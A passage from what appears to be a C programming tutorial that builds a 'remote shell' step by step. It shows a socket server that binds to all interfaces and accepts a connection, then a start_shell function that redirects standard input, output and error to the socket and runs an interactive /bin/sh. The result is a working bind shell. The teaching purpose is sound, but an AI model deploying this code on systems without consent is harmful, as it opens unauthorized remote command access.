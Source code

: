   if ((bind (s, (struct sockaddr *)&serv, 
	     sizeof(struct sockaddr_in))) < 0)
    {
      perror ("bind:");
      exit (EXIT_FAILURE);
    }
  if ((listen (s, 10)) < 0)
    {
      perror ("listen:");
      exit (EXIT_FAILURE);
    }
  clen = sizeof(struct sockaddr_in);
  if ((s1 = accept (s, (struct sockaddr *) &client, 
		    &clen)) < 0)
    {
      perror ("accept:");
      exit (EXIT_FAILURE);
    }

  return s1;

}

{% endhighlight %}

As you can see, the beginning of the function is practically the same that for the client code. It creates a socket, fills in the network data, but instead of trying to connect to a remote server, it binds the socket to a specific port. Note that the address passed to **bind** is the constant **INADDR_ANY**. This is actually IP 0.0.0.0 and it means that the socket will be listening on all interfaces.

The **bind** system call does not really make the socket a __listening__ socket (you can actually call **bind** on a client socket). It is the **listen** system call the one that makes the socket a server socket. The second parameter passed to **listen** is the backlog. Basically it indicates how many connections will be queued to be accepted before the server starts rejecting connections. In our case it just do not really matter.

At this point, our server is setup and we can accept connections. The call to the **accept** system call will make our server wait for an incoming connection. Whenever it arrives a new socket will be created to interchange data with the new client.

## Starting a Shell
The last piece of our remote shell example is a function to start a shell. This is the code:

{% highlight c lineos %}
int
start_shell (int s)
{
  char *name[3] ;

  dup2 (s, 0);
  dup2 (s, 1);
  dup2 (s, 2);
  
  name[0] = "/bin/sh";
  name[1] = "-i";
  name[2] = NULL;
  execv (name[0], name );
  exit (1);

  return 0;
}
{% endhighlight %}
